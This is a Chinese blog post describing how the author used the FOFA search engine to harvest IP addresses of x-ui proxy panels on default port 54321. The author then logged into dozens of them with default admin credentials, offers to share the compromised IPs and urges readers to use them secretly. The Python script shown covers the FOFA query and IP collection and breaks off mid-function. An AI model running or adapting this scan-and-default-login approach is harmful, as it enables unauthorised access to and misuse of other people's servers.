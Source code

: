 ```yaml
---
title: 【原创】x-ui面板爬虫爬取及登陆分享
date: 2024-8-31 21:15:18
tags: 原创
categories: 
  - [思路]
  - [python]
---
```


# x-ui面板爬虫爬取及登陆分享

* **由于最近闲，于是想着干一些事情 于是想到 fofa 黑暗搜索引擎，上去以后搞了一个教育会员，结果发现是企业会员 于是不能浪费，就去想到自己搭建的 x-ui 面板，然后看了一眼 发现默认端口是 54321，默认账号密码是 admin，但是大多数人肯定已经修改了端口和密码，但肯定会有一些人懒到搞，全部是默认。**
* **于是就尝试一下 先去爬取默认端口 54321 的 ip，然后我就爬的不多，就爬了 1w 个 ip，然后对爬到的 ip 进行请求返回值 code 判断是否为 200，为 200 的然后进行默认账号密码继续爬取，最后就爬了几千个 ip，然后成功登陆的有几十个，这里就分享一下 ip，你们上去不要乱搞，可以偷偷用，他们肯定也发现不了**
* **在这里分享一个最后整理的简易的爬虫代码**

#### fofa 代码

```
import requests
import pythonfofa
import sys

def userinfo(client):
    #个人信息
    info = client.userinfo()
    print(info)

def write(results):
    with open('ip.txt', 'a+') as fp:
        for item in results:
            ip = item[0]
            country = item[1]
            print(ip, country)
            fp.write(ip+'|'+country+'\n')

def read():
    for item in open('./ip.txt', 'r'):
        #print(item)
        item = item.split('|')
        ip = item[0]
        country = item[1].replace('\n', '')
        print(country)

def get_ip(client):

    for page in range(1, 2):
        # 查询语句
        query_str = 'port="54321" && title==" 登录 "'
        field = ['ip','country_name']

        #查询结果
        #handle.search(query_text, field, page, size, full)
        data = client.search(query_str,field=field, page=page,size=10000)

        # noinspection PyBroadException
        try:
            results = data['results']
            print(results)
        except Exception as e:
```